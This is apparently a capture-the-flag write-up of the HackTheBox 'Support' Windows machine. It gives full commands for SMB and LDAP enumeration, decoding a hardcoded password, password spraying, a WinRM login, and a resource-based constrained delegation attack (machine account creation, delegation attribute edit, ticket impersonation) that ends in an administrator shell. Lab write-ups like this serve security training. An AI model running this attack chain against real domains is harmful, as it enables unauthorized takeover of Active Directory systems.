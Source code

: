  ---
 title: HTB | Support
 author: Zeropio
 date: 2022-08-28
 categories: [Pentesting, HackTheBox]
 tags: [htb, windows, easy, machines]
 permalink: /pentesting/htb/machines/support
 image:
  path: /assets/img/hackthebox/card/Support.png
  width: 800
  height: 500
---

# Footprinting

The nmap provides us with:

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-28 15:40:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
58047/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-08-28T15:40:59
|_  start_date: N/A
|_clock-skew: 1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```

## RPC

We can star a `rpcclient` on the DC:

```console
zero@pio$ rpcclient -U "" -N 10.10.11.174
rpcclient $> querydominfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> getdompwinfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
```

We can access but doesn’t have rights to get anything. We can run `enum4linux` to get some info, but only got that:

- Some usernames: administrator, guest, krbtgt, domain admins, root, bin, none
- Server 10.10.11.174 allows sessions using username '', password '’
- Domain Name: SUPPORT
- Host is part of a domain (not a workgroup)

## SMB

We can list the SMB contents:

```console
zero@pio$ smbclient -N -L \\\\10.10.11.174

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share
```

We cannot connect to **NETLOGON**:

```console
zero@pio$ smbclient -N \\\\10.10.11.174\\NETLOGON
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

But we can connect to **support-tools**:

```console
zero@pio$ smbclient -N \\\\10.10.11.174\\support-tools
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 18:01:06 2022
  ..                                  D        0  Sat May 28 12:18:25 2022
```

We can see some zips files. Let’s see what are in them.

# Foothold

We can use **dnSpy** to see the code of the **UserInfo.exe** we got in the smb. We see a **Protected** file that contains a key and the way to decode the password. We can use Python to get the password:

```console
zero@pio$ python3
>>> enc_password = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
>>> key = b"armando"
>>> import base64
>>> array = base64.b64decode(enc_password)
>>> array2 = []
>>> for i in range(len(array)):
...     array2.append(chr(array[i] ^ key[i % len(key)] ^ 223))
... 
>>> print("".join(array2))
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Now we can use `ldapsearch` with the password:

```console
zero@pio$ ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb'
```

We get a bunch of information. We can get a password in a info field as `info: Ironside47pleasure40Watchful` . We can do a password spray with the users we got in this output. First, filter by them:

```console
zero@pio$ ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep name: | sed 's/^name: //' | grep -vE 'D|C|A|U'
```

Add them to a list and use crackmapexec:

```console
zero@pio$ crackmapexec smb 10.10.11.174 -u valid_users -p "Ironside47pleasure40Watchful"

SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful
```

We can connect now:

```console
zero@pio$ evil-winrm -i 10.10.11.174 -u support -p "Ironside47pleasure40Watchful"
```

# Privilege Escalation

We can check the privileges of our user:

```console
*Evil-WinRM* PS C:\Users\support\Desktop> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Desktop> Get-ObjectAcl -SamAccountName support -ResolveGUIDs
```

We can see that we have **GenericAll** privileges. Let’s use it to create a new user:

```console
*Evil-WinRM* PS C:\Users\support\Desktop> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Desktop> $password = ConvertTo-SecureString 'SecurePass1' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\support\Desktop> New-MachineAccount -MachineAccount hacker -Password $password -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = hacker$
Verbose: [+] Distinguished Name = CN=hacker,CN=Computers,DC=support,DC=htb
[+] Machine account hacker added
```

Now we need to get the SID:

```console
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer hacker

pwdlastset             : 8/28/2022 9:49:09 AM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=hacker,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : hacker
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5103
samaccountname         : hacker$
```

Now, with the SID, let’s add the privileges to the account to request TGT tickets:

```console
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5103)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Use the user from the Linux host to request a ticket:

```console
zero@pio$ impacket-getST support.htb/hacker:SecurePass1 -dc-ip 10.10.11.174 -impersonate administrator -spn www/dc.support.htb
```

Export the ticket and use `wmiexec` to get the shell:

```console
zero@pio$ export KRB5CCNAME=administrator.ccache
zero@pio$ impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k

C:\>whoami
support\administrator
```
